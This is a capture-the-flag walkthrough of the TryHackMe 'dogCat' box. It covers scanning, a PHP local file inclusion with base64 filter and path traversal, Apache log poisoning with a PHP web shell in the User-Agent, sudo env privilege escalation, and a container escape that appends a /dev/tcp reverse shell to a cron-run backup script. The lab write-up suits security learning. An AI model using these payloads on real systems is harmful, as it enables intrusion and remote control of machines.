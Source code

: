 ![Screenshot 2023-10-17 135404.png](dogCat%20cf5cfaa7d7854a5d9958ca7bb6ff7028/nSkIlFr.png)

![Screenshot 2023-10-17 135404.png](dogCat%20cf5cfaa7d7854a5d9958ca7bb6ff7028/ce2fe16cfcdac475834f262306243b0a.png)

# dogCat

"dogCat" is a website created with PHP that allows users to view cat and dog images. It serves as a source of comfort and relaxation, especially for those feeling down. It may also be associated with the "dogCat" TryHackMe Capture The Flag (CTF) challenge, which involves tasks such as scanning the network and discovering directories.

### Scanning

```jsx
nmap -A -T4 -Pn 10.10.85.143 -oN nmap_result.txt
```

![Screenshot 2023-10-17 135404.png](dogCat%20cf5cfaa7d7854a5d9958ca7bb6ff7028/Screenshot_2023-10-17_135404.png)

It looks like only SSH and HTTP is open, fair enough.

### Directory Enumeration

```jsx
gobuster dir -u http://10.10.85.143/ -w /home/kali/Downloads/SecLists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -o gobuster_output.txt -t 10
```

![Screenshot 2023-10-17 151238.png](dogCat%20cf5cfaa7d7854a5d9958ca7bb6ff7028/Screenshot_2023-10-17_151238.png)

 Let’s check the site in the browser…

![Screenshot 2023-10-17 135929.png](dogCat%20cf5cfaa7d7854a5d9958ca7bb6ff7028/Screenshot_2023-10-17_135929.png)

![Screenshot 2023-10-17 135955.png](dogCat%20cf5cfaa7d7854a5d9958ca7bb6ff7028/Screenshot_2023-10-17_135955.png)

We have two buttons that lead to “/?view=dog” and “/?view=cat” respectively

When we click either one we get the index page with a random dog/cat image appended at the end

After few minutes of fiddling we find out that:

- there are files called “dog.php” and “cat.php” that return a random image
- the “?view=” query runs “include” on our parameter only if the word “dog” or “cat” is present
- the file automatically appends .php to our parameter
- php base64 filter is working on this queryLet’s try to bypass this check with directory traversal:“/?view=php://filter/read=convert.base64-encode/resource=./dog/../index”

### ****Using Base64 Encoding to View Source Code****

We can specify the following PHP Wrapper to encode a file in Base64.

`php://filter/convert.base64-encode/resource=**<filename>**`

Let’s inject that into our LFI, and specify the file we want to view the contents of(index.php)

“/?view=php://filter/read=convert.base64-encode/resource=./dog/../index”

![Screenshot 2023-10-17 141115.png](dogCat%20cf5cfaa7d7854a5d9958ca7bb6ff7028/Screenshot_2023-10-17_141115.png)

```jsx
[http://10.10.85.143/?view=php://filter/read=convert.base64-encode/resource=./dog/../index](http://10.10.85.143/?view=php://filter/read=convert.base64-encode/resource=./dog/../index)
```

Now, let’s copy that returned Base64 and run the following command within Kali.

`echo -n <Base64> | base64 -d`

or 

Go to website [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/)

![Screenshot 2023-10-17 141525.png](dogCat%20cf5cfaa7d7854a5d9958ca7bb6ff7028/Screenshot_2023-10-17_141525.png)

The site checks if the “ext” parameter was provided, and if not it adds “.php” by default to our filename

According to our nmap scan the server runs on Apache so let’s try to get code execution with `**log poisoning.**`
The access log path for Apache is “/var/log/apache2/access.log” so let’s try to load it by adding multiple “../” to our path like this:

“/?view=dog/../../../../var/log/apache2/access.log&ext”

(remember the “ext” check? we can remove the “.php” extension just by defining it in the query)

By using `**Burpsuit repeater module**`

![Screenshot 2023-10-17 144238.png](dogCat%20cf5cfaa7d7854a5d9958ca7bb6ff7028/Screenshot_2023-10-17_144238.png)

### ##Remote code execution (RCE)

We can see that next to the route there is the User-Agent parameter. We can insert a small php script to later use the log for code execution:

```jsx
<?php system($_GET['cmd']);?>
```

Now when we are requesting the index page with the log we can add a “cmd” parameter with the command we want to execute:
“/?view=./dog/../../../../../../../var/log/apache2/access.log&ext&cmd=whoami”

![Screenshot 2023-10-17 144635.png](dogCat%20cf5cfaa7d7854a5d9958ca7bb6ff7028/Screenshot_2023-10-17_144635.png)

To get the reverse shell we have to execute the php reverse shell command with URL encoded.

![Screenshot 2023-10-17 144945.png](dogCat%20cf5cfaa7d7854a5d9958ca7bb6ff7028/Screenshot_2023-10-17_144945.png)

![Screenshot 2023-10-17 145135.png](dogCat%20cf5cfaa7d7854a5d9958ca7bb6ff7028/Screenshot_2023-10-17_145135.png)

and also start the listener in our target machine before sending this URL.

We get the reverse shell.

### ****Finding flags****

First flag was pretty easy to spot just by running “ls” in the starting directory:

![Screenshot 2023-10-17 145458.png](dogCat%20cf5cfaa7d7854a5d9958ca7bb6ff7028/Screenshot_2023-10-17_145458.png)

The second flag was also easy, just cd into the parent directory and there it is:

![Screenshot 2023-10-17 145715.png](dogCat%20cf5cfaa7d7854a5d9958ca7bb6ff7028/Screenshot_2023-10-17_145715.png)

The third flag is hidden in the /root folder so we need to get root privileges to get it
Running “sudo -l” reveals that we can execute “/usr/bin/env” as root without a password:

![Screenshot 2023-10-17 145848.png](dogCat%20cf5cfaa7d7854a5d9958ca7bb6ff7028/Screenshot_2023-10-17_145848.png)

[https://gtfobins.github.io/](https://gtfobins.github.io/)

![Screenshot 2023-10-17 150019.png](dogCat%20cf5cfaa7d7854a5d9958ca7bb6ff7028/Screenshot_2023-10-17_150019.png)

Let’s use it to get an elevated shell:

![Screenshot 2023-10-17 150140.png](dogCat%20cf5cfaa7d7854a5d9958ca7bb6ff7028/Screenshot_2023-10-17_150140.png)

### ##Container privileged escalation to the host machine

The fourth flag is outside this box. This is possible because the box we’re in is a container inside another box.
We can see this by going into “/opt/backups” and looking around the backup archive.

We can also see that the archive has a very recent date when compared to the script so that must mean the script is ran regurarly on the parent box.
Let’s use that fact to get ourselves a reverse shell on the parent machine:

```jsx
echo "sh -i >& /dev/tcp/10.17.11.201/5555 0>&1" >>backup.sh
```

![Screenshot 2023-10-17 150531.png](dogCat%20cf5cfaa7d7854a5d9958ca7bb6ff7028/Screenshot_2023-10-17_150531.png)

Finally we get the parent machine reverse shell of the host machine and also we get the fourth flag!

![Screenshot 2023-10-17 150630.png](dogCat%20cf5cfaa7d7854a5d9958ca7bb6ff7028/Screenshot_2023-10-17_150630.png)